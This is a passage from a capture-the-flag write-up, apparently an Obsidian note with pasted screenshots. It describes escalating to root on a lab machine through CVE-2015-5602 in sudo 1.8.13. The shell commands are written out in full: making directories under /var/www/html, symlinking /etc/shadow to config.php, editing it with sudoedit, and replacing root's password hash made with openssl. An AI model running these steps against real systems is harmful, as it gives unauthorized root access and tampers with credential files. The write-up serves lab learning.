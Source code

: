 ![[Pasted image 20230728103756.png]]

With these credentials, we use `su` to switch to `curtis` and retrieve flag 2:

![[Pasted image 20230728104014.png]]

Checking `sudo -l`, we see `curtis` can run the following:

```
sudoedit /var/www/html/*/*/config.php
```

With the current version of `sudo` (`v1.8.13`), it is vulnerable to [CVE-2015-5602](https://www.exploit-db.com/exploits/37710). To exploit this, we must create two directories within `/var/www/html` and create a `config.php` file in that subdirectory.  We cannot do this with `curtis` as they are not a member of the `web-developers` group - only `marco` and `www-html` can do this:

```console
$ mkdir -p /var/www/html/priv/esc
$ touch /var/www/html/priv/esc/config.php
```

We can then create a symlink to another file, such as `/etc/shadow`, which will allow us to edit it with `root` user privileges:

```console
$ ln -s /etc/shadow /var/www/html/priv/esc/config.php
```

Switching back to `curtis`, we can then run `sudoedit`

![[Pasted image 20230728122940.png]]



![[Pasted image 20230728122450.png]]

From here, we can then change the `root` password:

Attacker machine:

```console
$ openssl passwd -6 -salt randomsalt <password>
```

Pasting this value in place of the current `root` password, we can `su` to `root` and retrieve the final flag:

![[Pasted image 20230728122725.png]]
